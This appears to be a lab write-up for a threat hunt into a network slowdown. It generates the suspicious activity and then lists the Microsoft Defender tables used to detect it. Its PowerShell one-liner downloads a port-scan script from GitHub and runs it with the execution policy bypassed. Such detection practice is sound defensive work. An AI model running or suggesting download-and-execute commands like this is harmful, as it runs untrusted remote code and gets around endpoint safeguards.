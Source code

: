 # Threat Hunt: Sudden Network Slowdown

### Phase 1: Simulating the Trigger Event

To begin this threat hunt, it was necessary to simulate suspicious network activity that would be logged by a security monitoring platform. The goal was to mimic the reconnaissance phase of an attack, specifically a network-wide port scan, which is a common cause of network degradation and a frequent trigger for a security investigation.

The following PowerShell command was executed on a test machine to generate this activity:

```powershell
# This one-line command first downloads a port scanning script...
Invoke-WebRequest -Uri '[https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1](https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1)' -OutFile 'C:\programdata\portscan.ps1';

# ...and then immediately executes it, bypassing the local security policy.
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```
## Tables Used to Detect IoCs:
| Table Name | Purpose (in Simple English) | Official Documentation |
| :--- | :--- | :--- |
| **`DeviceFileEvents`** | Tracks events related to file creation, modification, and deletion on your devices. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) |
| **`DeviceProcessEvents`** | Monitors the creation of new processes, like when a program or script starts running. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) |
| **`DeviceNetworkEvents`**| Records all network activity, including inbound and outbound connections from devices. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) |
